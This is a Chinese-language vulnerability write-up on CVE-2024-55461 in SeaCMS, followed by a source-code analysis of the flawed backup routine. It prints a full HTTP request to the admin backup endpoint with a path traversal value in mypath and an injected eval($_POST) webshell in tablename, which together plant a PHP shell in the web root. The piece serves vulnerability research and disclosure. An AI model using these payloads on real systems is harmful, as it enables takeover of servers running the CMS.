# CVE-2024-55461 路径穿越+rce 组合拳-先知社区

> **来源**: https://xz.aliyun.com/news/16879  
> **文章ID**: 16879

---

# CVE-2024-55461 路径穿越+rce 组合拳

## 环境搭建

下载官方源码 phpstduy 直接搭建就 ok  
<https://www.seacms.net/>

## 漏洞复现

首先我们简单复现一下我们的漏洞

首先进入后台，这个后台的目录名字是随机的，按照自己生成的随机名字去访问

进入后台



访问路径/ebak/ChangeTable.php


这里可以备份数据

点击备份抓包



```
POST /psadn/ebak/phomebak.php HTTP/1.1
Host: seacms:8181
Content-Length: 247
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/psadn/ebak/ChangeTable.php?mydbname=seacms&keyboard=sea&act=b
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=qskqpgvgrsqn4o5qc0hcknpgup
Connection: keep-alive

phome=DoEbak&mydbname=seacms&baktype=0&filesize=1024&bakline=1000&autoauf=1&bakstru=1&dbchar=utf8&bakdatatype=1&mypath=seacms_20250213_KEH2TG&insertf=replace&waitbaktime=0&readme=&tablename%5B%5D=sea_zyk&Submit=%E5%BC%80%E5%A7%8B%E5%A4%87%E4%BB%BD
```

其中有一个参数是 mypath

我们修改 mypath=../../../../../aaa





当然仅仅这样并没有什么危害，但是如果我们点进去目录



会生成两个文件，而其中还有一个 php 文件

而我们的 tablename%5B%5D 参数可以控制部分内容

修改为

```
tablename%5B%5D=";eval($_POST['a']);/*
```

目录穿越到 web 目录



然后我们观察文件内容



尝试利用





可以看到是可以 getshell 了

## 调试分析

根据我们的访问路由和 POC

我们定位到 phomebak.php 文件  


进入 Ebak\_DoEbak 方法

代码很长我们倒着分析

```
function Ebak_DoEbak($add){
    global $empire,$bakpath,$fun_r,$phome_db_ver;
    $dbname=RepPostVar($add['mydbname']);
    if(empty($dbname))
    {
        printerror("NotChangeDb","history.go(-1)");
    }
    $tablename=$add['tablename'];
    $count=count($tablename);
    if(empty($count))
    {
        printerror("EmptyChangeTb","history.go(-1)");
    }
    $add['baktype']=(int)$add['baktype'];
    $add['filesize']=(int)$add['filesize'];
    $add['bakline']=(int)$add['bakline'];
    $add['autoauf']=(int)$add['autoauf'];
    if((!$add['filesize']&&!$add['baktype'])||(!$add['bakline']&&$add['baktype']))
    {
        printerror("EmptyBakFilesize","history.go(-1)");
    }
    //目录名
    if(empty($add['mypath']))
    {
        $add['mypath']=$dbname."_".date("YmdHis");
    }
    DoMkdir($bakpath."/".$add['mypath']);
    //生成说明文件
    $readme=$add['readme'];
    $rfile=$bakpath."/".$add['mypath']."/readme.txt";
    $readme.="\r
\r
Baktime: ".date("Y-m-d H:i:s");
    WriteFiletext_n($rfile,$readme);

    $b_table="";
    $d_table="";
    for($i=0;$i<$count;$i++)
    {
        $b_table.=$tablename[$i].",";
        $d_table.="\$tb[".$tablename[$i]."]=0;\r
";
    }
    //去掉最后一个,
    $b_table=substr($b_table,0,strlen($b_table)-1);
    $bakstru=(int)$add['bakstru'];
    $bakstrufour=(int)$add['bakstrufour'];
    $beover=(int)$add['beover'];
    $waitbaktime=(int)$add['waitbaktime'];
    $bakdatatype=(int)$add['bakdatatype'];
    if($add['insertf']=='insert')
    {
        $insertf='insert';
    }
    else
    {
        $insertf='replace';
    }
    if($phome_db_ver=='4.0'&&$add['dbchar']=='auto')
    {
        $add['dbchar']='';
    }
    $string="<?php 
    \$b_table="".$b_table."";
    ".$d_table."
    \$b_baktype=".$add['baktype'].";
    \$b_filesize=".$add['filesize'].";
    \$b_bakline=".$add['bakline'].";
    \$b_autoauf=".$add['autoauf'].";
    \$b_dbname="".$dbname."";
    \$b_stru=".$bakstru.";
    \$b_strufour=".$bakstrufour.";
    \$b_dbchar="".addslashes($add['dbchar'])."";
    \$b_beover=".$beover.";
    \$b_insertf="".addslashes($insertf)."";
    \$b_autofield=",".addslashes($add['autofield']).",";
    \$b_bakdatatype=".$bakdatatype.";
     ?>";
    $cfile=$bakpath."/".$add['mypath']."/config.php";
    WriteFiletext_n($cfile,$string);
    if($add['baktype'])
    {
        $phome='BakExeT';
    }
    else
    {
        $phome='BakExe';
    }
    echo $fun_r['StartToBak']."<script>self.location.href='phomebak.php?phome=$phome&t=0&s=0&p=0&mypath=$add[mypath]&waitbaktime=$waitbaktime';</script>";
    exit();
}
```

首先最直接的点肯定是



函数名称应该是写文件  
跟进后确实如此

```
function WriteFiletext_n($filepath,$string){
    global $filechmod;
    $fp=@fopen($filepath,"w");
    @fputs($fp,$string);
    @fclose($fp);
    if(empty($filechmod))
    {
        @chmod($filepath,0777);
    }
}
```

这里我们关注我们参数是如何传入的

```
$cfile=$bakpath."/".$add['mypath']."/config.php";
```

我们可以控制的是 mypath

这个是我们 post 传入的一个参数  
而我们的内容取决 $string

```
$string="<?php 
\$b_table="".$b_table."";
".$d_table."
\$b_baktype=".$add['baktype'].";
\$b_filesize=".$add['filesize'].";
\$b_bakline=".$add['bakline'].";
\$b_autoauf=".$add['autoauf'].";
\$b_dbname="".$dbname."";
\$b_stru=".$bakstru.";
\$b_strufour=".$bakstrufour.";
\$b_dbchar="".addslashes($add['dbchar'])."";
\$b_beover=".$beover.";
\$b_insertf="".addslashes($insertf)."";
\$b_autofield=",".addslashes($add['autofield']).",";
\$b_bakdatatype=".$bakdatatype.";
 ?>";
```

其中我们选择控制一个即可，然后闭合一下文件



然后成功写入了我们的文件

导致了 getshell
